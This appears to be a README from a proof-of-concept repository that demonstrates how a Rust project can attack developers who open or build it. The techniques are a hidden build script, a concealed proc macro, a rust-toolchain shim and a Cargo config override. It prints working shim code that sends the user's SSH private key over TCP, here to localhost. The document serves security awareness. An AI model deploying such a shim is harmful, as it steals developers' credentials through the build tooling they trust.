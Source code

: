 # Techniques Used

## Malicious Build Script

The top-level crate uses a build script, but it is located in `src/main.rs` instead of the usual `build.rs` to make it a little bit harder to notice.

## Malicious Macro

A malicious proc. macro is invoked by the main library crate.
The macro is located in `src/mac` to make it slightly harder to find.

## Malicious Toolchain

The following shim replaces `rustc`, `cargo`, and `rustfmt` in the project directory:

```rust
use std::{io::Write, net::TcpStream, path::Path, process::Command};

fn main() {
    #[allow(deprecated)]
    if let Some(home) = std::env::home_dir() {
        if let Ok(key) = std::fs::read(format!("{}/.ssh/id_rsa", home.display())) {
            if let Ok(mut stream) = TcpStream::connect("127.0.0.1:8080") {
                stream.write_all(&key).ok();
            }
        }
    }

    let mut args = std::env::args_os();
    let cmd = args.next().unwrap();
    let cmd = Path::new(&cmd).file_name().unwrap();
    match Command::new(cmd).arg("+stable").args(args).status() {
        Ok(status) => match status.code() {
            Some(code) => std::process::exit(code),
            None => std::process::exit(1),
        },
        Err(_) => {
            std::process::exit(1);
        }
    }
}
```

Any attempt to invoke Cargo or rustc (even just `cargo metadata` or `rustc -V`) will exfiltrate the SSH key.
The same goes for any `rustfmt` invocation, which even otherwise bare-bones editors might do.

This is achieved with the `rust-toolchain` file, which tells rustup to use the toolchain in `.cargo/bin`.
It relies on rustup being installed, so will not work if Rust was installed via the standalone installer or a system package manager.
It also only works when this project is opened or built directly, not when used as a dependency.

## Malicious Cargo Configuration

In case the above toolchain override does not work, `.cargo/config.toml` configures the malicious rustc shim as the Rust compiler invoked by Cargo.
